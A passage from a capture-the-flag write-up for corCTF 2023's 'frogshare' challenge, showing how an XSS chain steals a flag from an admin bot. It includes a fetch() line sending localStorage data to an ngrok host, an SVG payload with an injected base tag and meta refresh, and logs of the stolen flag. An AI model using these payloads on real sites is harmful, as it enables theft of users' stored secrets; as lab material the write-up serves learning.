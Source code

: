 **Modify the JavaScript payload:**
```js
fetch('https://2eb1-[...].ngrok-free.app/flag?c='+localStorage.getItem('flag'));
```

This will send a GET request to our Ngrok's port forwarding domain with GET parameter `c`, which includes the localStorage's `flag` key's value.

**For sanity check, refresh the shared frog page:** 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731163527.png)

```shell
127.0.0.1 - - [31/Jul/2023 16:34:43] "GET /_next/static/chunks/pages/index-3228b8a1fcea6589.js HTTP/1.1" 200 -
127.0.0.1 - - [31/Jul/2023 16:34:44] "GET /flag?c=null HTTP/1.1" 404 -
```

**Nice! It worked, let's send the shared frog URL to the admin bot!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731163603.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731163617.png)

```shell
127.0.0.1 - - [31/Jul/2023 16:36:22] "GET /payload?cachebuster=69 HTTP/1.1" 200 -
```

Uhh... There's no `/flag` GET request... What??

After fumbling around, the shared frog page must need to ***refresh*** in order to trigger the JavaScript execution...

**To solve that problem, we can use the `<meta>` tag.**

**Let's modify our SVG payload again:**
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

  <foreignObject>
    <base href="https://2eb1-[...].ngrok-free.app">
    <meta http-equiv="refresh" content="2;url=https://frogshare.be.ax/frogs/59">
  </foreignObject>
</svg>
```

The `<meta>` tag will redirect the user to `https://frogshare.be.ax/frogs/<your_frog_id>` after 2 seconds.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731164001.png)

**Then send the shared frog page to admin bot again:**
```shell
127.0.0.1 - - [31/Jul/2023 16:40:41] "GET /payload?cachebuster=420 HTTP/1.1" 200 -
127.0.0.1 - - [31/Jul/2023 16:40:44] "GET /_next/static/chunks/pages/index-3228b8a1fcea6589.js HTTP/1.1" 200 -
127.0.0.1 - - [31/Jul/2023 16:40:45] "GET /flag?c=corctf{M1nd_Th3_Pr0p_spR34d1ng_XSS_ThR34t} HTTP/1.1" 404 -
127.0.0.1 - - [31/Jul/2023 16:40:46] "GET /_next/static/chunks/pages/index-3228b8a1fcea6589.js HTTP/1.1" 304 -
127.0.0.1 - - [31/Jul/2023 16:40:47] "GET /flag?c=corctf{M1nd_Th3_Pr0p_spR34d1ng_XSS_ThR34t} HTTP/1.1" 404 -
```
